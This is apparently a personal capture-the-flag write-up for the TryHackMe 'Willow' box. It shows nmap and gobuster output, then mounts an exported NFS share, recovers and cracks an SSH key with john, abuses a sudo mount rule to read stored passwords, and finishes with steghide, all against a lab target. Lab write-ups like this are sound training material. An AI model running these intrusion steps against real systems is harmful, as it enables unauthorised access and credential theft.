 # Willow

## nmap scan
INITIAL
```
PORT     STATE SERVICE VERSION                                                                                                                                                                
22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))                                          
| http-methods:                                                                                
|_  Supported Methods: GET HEAD POST OPTIONS                                                   
|_http-server-header: Apache/2.4.10 (Debian)                                                   
|_http-title: Recovery Page                                                                    
111/tcp  open  rpcbind 2-4 (RPC #100000)                                                       
2049/tcp open  nfs_acl 2-3 (RPC #100227)
```

## gobuster
COMMON
```
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
```

## webpage data decryption
> REDACTED

## probable username : -------------

1. user.txt

	1. search for possible nfs mounts `showmount -e IP`
```
Export list for 10.10.208.225:                                                                  
/var/failsafe *
```
	2. mkdir tmp && mkdir /tmp/nfs
		1. sudo mount -t nfs IP:/var/failsafe ./tmp/nfs
	
  3. ls -la ./tmp/nfs
```
total 8
drwxr--r-- 2 nobody nogroup 4096 Jan 30  2020 .
drwxr-xr-x 1 user   user       6 Feb 25 19:29 ..
-rw-r--r-- 1 root   root      62 Jan 30  2020 rsa_keys
```

	4. cat ./tmp/nfs/rsa_keys
```
Public Key Pair: (23, 37627)
Private Key Pair: (61527, 37627)
```

	5. use this site https://www.cs.drexel.edu/~jpopyack/Courses/CSP/Fa17/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt_v2.html
		1. with decryption key : `61527`
		2. and with modulus : `37627`
	
  6. use ssh to john `python2 /usr/share/john/ssh2john.py rsakey > rsaHASH`
	
  7. use john `john rsakey -w=/usr/share/wordlists/rockyou.txt`
```
passphrase: wildflower
```
	
  8. ssh into the server using passphrase wildflower `ssh -i rsakey wildflower@IP`
	
	9. scp -i rsakey willow@IP:/user.jpg .

	10. open user.jpg flag is there fuck sake i spent half an hour using steghide and such on it this is a direct callout MuirlandOracle


```
THM{REDACTED}
```

2. root.txt

	1. sudo -l shows us the following
```
Matching Defaults entries for willow on willow-tree:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User willow may run the following commands on willow-tree:
    (ALL : ALL) NOPASSWD: /bin/mount /dev/*

```

	2. ls -la on /dev/ 
	
  3. we find an interesting directory called `hidden_backups`
	 
  4. looking for a place to mount this directory we check /mnt
  
	5. in /mnt we find an empty directory called creds lets mount hidden_backup in there

	6. sudo /bin/mount /dev/hidden_backup /mnt/creds/ ( used to mount hidden_backups into the creds directory )
	
  5. cat /mnt/creds/creds.txt
```
root:7QvbvBTvwPspUK
willow:U0ZZJLGYhNAT2s
```

	6. su root with root passwd
	
  7. change to root directory and cat root.txt
```
This would be too easy, don't you think? I actually gave you the root flag some time ago.
You've got my password now -- go find your flag!
```
	
  8. go back to the user.jpg and use steghide on it 
  
    1. `steghide --extract -sf user.jpg -xf userOUTPUT` 
    2. use the password for root as the passphrase and you get the flag
	
  9. cat userOUTPUT

```
THM{REDACTED}
```
